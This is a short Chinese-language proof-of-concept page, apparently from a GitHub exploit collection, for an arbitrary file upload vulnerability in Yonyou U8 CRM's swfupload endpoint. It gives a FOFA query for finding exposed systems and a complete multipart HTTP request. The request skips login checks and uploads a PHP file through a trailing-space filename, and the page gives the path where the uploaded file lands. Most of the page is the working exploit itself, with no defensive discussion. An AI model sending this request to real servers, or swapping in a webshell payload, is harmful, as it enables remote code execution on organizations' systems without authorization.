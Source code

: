 ## 用友crm-swfupload接口存在任意文件上传漏洞

## fofa
```
body="用友U8CRM"
```

## poc
```
POST /ajax/swfupload.php?DontCheckLogin=1&vname=file HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------269520967239406871642430066855
Content-Length: 355

-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="file"; filename="%s.php "
Content-Type: application/octet-stream

<?phpinfo();sleep(8);unlink(__FILE__);?>
-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="upload"

upload
-----------------------------269520967239406871642430066855--
```
![image](https://github.com/wy876/POC/assets/139549762/dc0c03e9-ad57-4baa-bc90-48e9222bccba)

文件路径：`http://127.0.0.1/tmpfile/{{path}}.tmp.php`

